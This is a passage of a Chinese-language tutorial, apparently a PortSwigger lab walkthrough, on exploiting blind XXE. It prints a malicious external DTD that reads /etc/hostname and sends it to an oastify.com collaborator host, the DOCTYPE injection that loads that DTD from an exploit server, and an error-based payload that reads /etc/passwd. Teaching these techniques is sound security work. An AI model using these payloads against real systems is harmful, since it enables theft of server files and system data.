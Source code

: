 重新定义响应内容，以 “参数实体” 的形式构造 XXE 攻击载荷。  
  
该载荷会读取/etc/hostname  
的文件内容，然后将其附加到 URL 参数x  
当中，最后访问该 URL 并传递x  
参数值。 单击"Go to exploit server"（转到利用漏洞服务器）并将恶意DTD文件保存在您的服务器上。  
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vtsi74mycfc4iuvbki5cypdqwh28q2er.oastify.com/?x=%file;'>">
%eval;
%exfil;

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlAPjcuVORWA8wDoDUsXwq2OZXybqbDKBiaatZHT45zboL0QvdicjSHNmQ/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlHBTYzyFXgp7H5dI5G2tRsDeah8CRYCgtEzZDL4iauEQBGoy1yfNgj6Q/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
记下URL，回到 BurpSuite ，注入 XML 参数实体，并加载远程 DTD 文件。  
  
（值得注意的是，**实体的名称不能重复**  
，否则会造成冲突）  
```
<!DOCTYPE abc [<!ENTITY % qwe SYSTEM "漏洞利用服务器的域"> %qwe;]>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a96000a03ecc26e8161c51b01cd004b.exploit-server.net/exploit"> %xxe;]>

```  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlOQb8FjRj3l5lq3iadwOeAibTNN9ZicRK0eDEQkmxVXAbDOlFHGCk1HYPA/640?wx_fmt=png&from=appmsg "")  
  
image.png  
  
查看collaborator![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/zkFLzGMx1jv7IhtdDp3p56tsRxYaxUjlG5Vq2OQwHWkCo4EUgHtDaDLWCNxDnUia7iavYnf6rWH21OkCQTuljoqg/640?wx_fmt=png&from=appmsg "")  
  
- 该程序先是请求了/exploit  
文件，获取远程 XML 文件的内容，并执行其中的 XML 参数实体。  
  
- 执行的过程中，将/etc/hostname  
的文件内容附加到x  
参数当中，并再次访问/?x=内容  
  
从而造成带外数据泄露，获得主机名。  
## 6.4 利用盲态XXE通过错误消息检索数据  
1. 利用盲XXE的另一种方法是触发XML解析错误，其中错误消息包含希望检索的敏感数据。如果应用程序在其响应中返回结果错误消息，则此操作将有效。  
  
可以触发一条XML分析错误消息，该消息包含/etc/密码文件使用恶意外部DTD：  
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

```  
  